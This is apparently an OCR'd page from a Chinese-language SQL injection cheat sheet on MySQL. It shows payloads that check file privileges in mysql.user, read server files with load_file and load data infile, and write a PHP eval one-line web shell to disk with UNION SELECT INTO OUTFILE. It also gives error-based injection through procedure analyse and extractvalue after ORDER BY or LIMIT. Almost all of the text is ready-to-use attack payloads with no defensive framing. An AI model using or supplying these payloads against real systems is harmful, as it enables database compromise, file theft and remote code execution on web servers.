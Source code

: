 ------

## 8 mysql读写文件

### 8.1 判断是否具有读写权限:

	and (select count(file_priv) from mysql.user)>0/*
	and 1=2 union select 1,2, concat_ws(':', host, user, file_priv) from mysql.user/*
	例如：select * from site_tb where 1=2 union select 1,2, concat_ws(':', host, user, file_priv) from mysql.user;

### 8.2 读文件

	create table a(cmd text);
	load data infile '/Users/apple/tmp/test.txt' into table a;
	select * from a;   /* mysql 3.x 5.x

	create table a(cmd text);
	insert into a(cmd) values(load_file('/Users/apple/tmp/test.txt'));
	select * from a;   /* mysql 3.x 4.x 5.x

	and 1=2 union select 1, 2, concat(load_file('/Users/apple/tmp/test.txt'))
	例如：select * from site_tb union select 1, 2, concat(load_file('/Users/apple/tmp/test.txt'));
	
### 8.3 写文件

	union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*s
	union select 1,2,3,load_file(‘d:\web\logo123.jpg’),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*
	例如：select * from site_tb union select 1, 2, '<?php eval(\"_POST[\'test\']\”);?>' into outfile 'shell.php';

### 8.4 插入、更新数据

	insert into user(username,password) values(‘xxxx’,’ xxxx’),(‘dddd’,’dddd’)/* ‘);
	update table set column=value where **/*

------

## 9 order by/limit类型注入

order by后面只能跟limit/into/procedure三个命令

limit后面只能跟into和procedure两个命令

使用：

	procedure analyse (extractvalue(1,concat(0x5c,version())),1);

实现报错注入：

例如：

	select 1 from mysql.user procedure analyse (extractvalue(1,concat(0x5c,version())),1);
	select 1 from mysql.user order by 1 procedure analyse(extractvalue(1,concat(0x5c,version())),1);
	select 1 from mysql.user limit 1,2 procedure analyse(extractvalue(1,concat(0x5c,version())),1);
	select 1 from mysql.user order by 1 limit 1 procedure analyse(extractvalue(1,concat(0x5c,version())),1);

---